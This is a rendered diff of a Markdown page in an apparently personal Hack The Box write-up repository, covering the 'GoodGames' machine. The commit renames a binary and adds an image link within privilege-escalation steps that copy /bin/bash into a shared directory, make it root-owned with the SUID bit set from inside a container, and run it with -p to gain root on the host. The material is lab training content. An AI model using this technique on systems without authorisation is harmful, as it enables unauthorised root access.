

Before and after one commit to VictorAbhi/htb-writeups-and-notes, a Markdown page: 01--Red-Team/GoodGames.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/01--Red-Team/GoodGames.md
+++ b/01--Red-Team/GoodGames.md
@@ -77,12 +119,14 @@ ssh augustus@172.19.0.1
 * **Exploitation Steps:**
 ```bash
 # On the host (as augustus): copy /bin/bash into the shared home directory
-cp /bin/bash /home/augustus/rootbash
+cp /bin/bash /home/augustus/bash
 
 # Inside the container (as container root): change ownership to root and set the SUID bit
-chown root:root /home/augustus/rootbash
-chmod 4755 /home/augustus/rootbash
-
+chown root:root /home/augustus/bash
+chmod 4755 /home/augustus/bash
+```
+![priv_esc](/images/20.png)
+```
 # On the host (as augustus): execute the SUID binary with -p to preserve root privileges
-/home/augustus/rootbash -p
+/home/augustus/bash -p
 ```
````
Also changed, not shown: other parts of 01--Red-Team/GoodGames.md (+43 -0 lines), images/images.png (added).
